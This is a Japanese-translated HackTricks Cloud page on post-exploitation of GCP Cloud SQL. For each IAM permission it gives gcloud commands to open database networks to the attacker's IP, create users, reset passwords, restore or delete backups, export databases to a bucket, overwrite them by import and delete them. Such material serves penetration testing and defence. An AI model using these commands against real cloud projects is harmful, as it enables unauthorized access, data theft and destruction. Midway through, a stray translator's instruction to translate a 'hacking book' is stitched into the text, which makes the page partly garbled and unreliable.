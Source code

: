 # GCP - Cloud SQL ポストエクスプロイト

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**PEASSファミリー**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Cloud SQL

Cloud SQLについての詳細は以下をチェックしてください:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

データベースに接続するには、**データベースポートへのアクセス**と**ユーザー名**と**パスワード**を知っているだけで十分で、IAMの要件はありません。したがって、データベースにパブリックIPアドレスがあると仮定すると、アクセスを許可するネットワークを更新し、**自分のIPアドレスからのアクセスを許可する**ことで簡単にアクセスできます。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
データベースのバックアップを**混乱させる**ために、**`--no-backup`** も使用可能です。

これらが要件であるため、**`cloudsql.instances.connect`** と **`cloudsql.instances.login`** の権限が具体的に何のためにあるのか完全にはわかりません。ご存知の方はPRを送ってください！

### `cloudsql.users.list`

データベースの**すべてのユーザーのリスト**を取得します：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

この権限は、データベース**内に新しいユーザーを作成する**ことを許可します：
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

この権限は、データベース内の**ユーザーを更新する**ことを可能にします。例えば、そのパスワードを変更することができます：

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

バックアップには**古い機密情報**が含まれている可能性があるため、チェックすることが重要です。\
データベース内で**バックアップを復元**します：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
以下は、ハッキング技術に関するハッキングの本の内容です。関連する英語テキストを日本語に翻訳し、まったく同じマークダウンおよびhtml構文を保持して翻訳を返してください。コード、ハッキング技術名、ハッキング用語、クラウド/SaaSプラットフォーム名（Workspace、aws、gcpなど）、'leak'という単語、pentesting、およびマークダウンタグのようなものは翻訳しないでください。また、翻訳とマークダウン構文以外の余分なものは追加しないでください。

より慎重な方法としては、現在稼働中のデータベースではなく、新しいSQLインスタンスを作成し、そこでデータを復旧することが推奨されます。

### `cloudsql.backupRuns.delete`

この権限はバックアップの削除を許可します：
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**データベースをエクスポート**して、そこからアクセスできるようにCloud Storage Bucketに保存します：
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage Bucketからデータベースをインポート**（上書き）：
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

データベースインスタンスからデータログを削除します：
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでのAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください。
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
